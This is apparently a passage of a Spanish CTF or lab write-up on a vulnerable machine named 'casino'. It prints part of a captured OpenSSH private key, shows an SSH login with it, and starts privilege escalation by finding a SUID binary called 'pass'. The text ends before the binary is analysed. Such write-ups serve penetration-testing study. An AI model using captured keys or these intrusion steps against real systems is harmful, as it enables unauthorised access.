 ```
DJOoATyXxt4I4/B67DuCDbbd/M4IaKQGD6yJgvuvXnD5ZQ0Raoifn7TnV2S9vFfAqOngR1
tMRrUaN4IxdofUL1tPbh9ZdmcWQRFJprBHzwo5ephSlE9Ev6rwW/mbYnnpAjQBjIgd4JJP
17/LL10aEQvT+EW2nev43QVk6EpY/TEDiiSdfBVAMR+y3SCbS1ibXnMXBlVrBJDW+qd9bq
CUyVxHhPRbFoi8HDdWuecXYD26/CVbpw5jOlK0eNdwlAiVyzipdZKU9uluQUKxRTD593g7
bRQgA05CCMVSrheAML+8L2RSh8ymScPyYMZ8WyBm44e3G6FfuZwQhqOzU3tR1ctj0xBuSJ
qb3KCCiAuqsVx8TxpamR1EwWA/QttW7wsWKrmYdqK0eAXLb9trVvCuXXAepl5zrSMpAAAA
wQCuUqZlTqhF0IuIUSR8FxOwcs1M7K7iTULXKQknqOegbRPJjlwfzCvkd/+CefnKtnn4Te
EVgllBsifo122D5xO9dtpiOFtwq16tqwI2SboCEm4umfAtq2h9/TmCEQ67jmpulMpMpzwW
wu1sWp8dk87u7GZxb0G/+GVD8lVj9tnwPBx8nw2a3wUItQ/YHOBGc4rDPiIIGyx6nkcl6d
VRtF2z92YaMzY163mA/oee6OCA2cwCv+7T7Y8YN84+1OJMYUYAAADBAO5pRnTxioPXDqA5
NAirbicStNfyeiADgFOHCgB8LfS/OPuJWSORQBMRRuuNDonCCg0DT6VWzza0FunJ6IiNyI
xQ0eEnUMGPwK2jIVRg3bN2V77DrMLuwqAgttjr85mlEKTubqY3q7OK4D6UWl9vxFhnBpH7
pbPy2gfA+qdrMoeNEG1KMm1fg5ZHMZp84btUbWzYQgRUdOwCas0u0nezG4KNUVj5paZfL4
nzECnmoxgiTwuvFsb7b7b26LAcGM1KPQAAAMEA2I3bnxzRLCiRX1aez7fB8Lwr4hbGSD+U
fX4SQ7YsKUbGJwKdQLu/kRZ51BlzgF1Nd3uSYak16xuWhTz1acIYL1ASYsMN94rdbi6dKU
740tTnigXXcYVq4pk9HhHVxBEb0sK/EaGcycH6rnWa+B1EkZZDE1qpeYutQaC+77b86MRB
olLBfy03QWwkulBGaHUhUbjyF1sy1w+5W0I6Fy11rj8AtQCWlWEeJ5IeOubgPB134lmXSE
5JYqg0CzdThLWdAAAADnNoaW1tZXJAY2FzaW5vAQIDBA==
-----END OPENSSH PRIVATE KEY-----
</div>
[...]
```

## Esladado de privilegios

Tras iniciar sesión con la clave privada, encuentro un binario con permiso **SUID** llamado "pass".

```
$ ssh shimmer@192.168.1.104 -i shimmer  
Debian GNU/Linux 12
Welcome to Binary Bet Casino
--------------------------------

Linux casino 6.1.0-9-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.27-1 (2023-05-08) x86_64
shimmer@casino:~$ :)
shimmer@casino:~$ ls -la
[...]
-rwsr-xr-x 1 root    root    16432 jun 14 16:48 pass
[...]
```

### Pass

Lo primero que hago es copiar el binario a mi máquina kali para analizarlo. En esta ocasión lo hago con **Cutter**.
